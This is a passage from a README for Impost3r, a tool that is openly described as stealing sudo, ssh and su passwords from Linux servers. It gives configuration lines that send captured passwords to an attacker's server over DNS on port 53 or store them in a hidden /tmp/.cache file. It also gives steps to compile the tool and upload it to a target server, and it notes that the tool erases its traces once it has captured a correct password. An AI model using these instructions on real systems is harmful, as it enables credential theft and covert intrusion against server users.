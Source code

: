 ```
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.cache" \\Set the result file location if you want to save the result on the server
```
- Save the source code,and run ```make``` 

- Get the ```.impost3r``` file after compiling.

- Upload ```.impost3r``` file to the target server and put it under the FILENAME you specified.

- The last thing you should do is run a dns server service on your server(REMOTE_ADDRESS)'s port(REMOTE_PORT),and waiting for the bonus.

### Demo

<img src="https://user-images.githubusercontent.com/45198234/83479347-e88b1700-a4ca-11ea-8230-8ec7e9a66845.gif" width="1200" >

### Tips

- When Impost3r steal the sudo password successfully,it will automatically clean the traces it make on the target server.

- Impost3r can automatically determine whether the password entered by the user is the correct password, and will not clean itself and erase the trace until the user enters the correct password.

- Please use command ```sudo -v``` to check if the current user can use sudo command(if user is in the sudoers file) ,if user has no permission to use sudo command, Please do not use Impost3r!

## Steal ssh/su password

Stealing the ssh/su password is different from the sudo password stealing method above. You need root privilege.And this method can steal all user's password

The following uses Ubuntu as an example, Centos is similar,but the file locations mentioned may be slightly different

- First, assume that the attacker controls a server,and gets the root privilege

- Then edit the ```/ssh_su/main.h``` source code file of Impost3r

```
/*
    Custom setting
*/
# define SSH_OR_BOTH 0 \\Set stealing mode, 0 means only steal ssh password, 1 means steal ssh and su password, the default is 0 (the difference will be mentioned later)
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)

/*
    Send to server
*/
# define YOUR_DOMAIN ".com" \\Note that if you don’t want to buy a domain name to receive messages sent back by Impost3r and the target server implanted in Impost3r does not prohibit direct udp connections to port 53 of the dns server you control, then please use the default value for the domain name here
```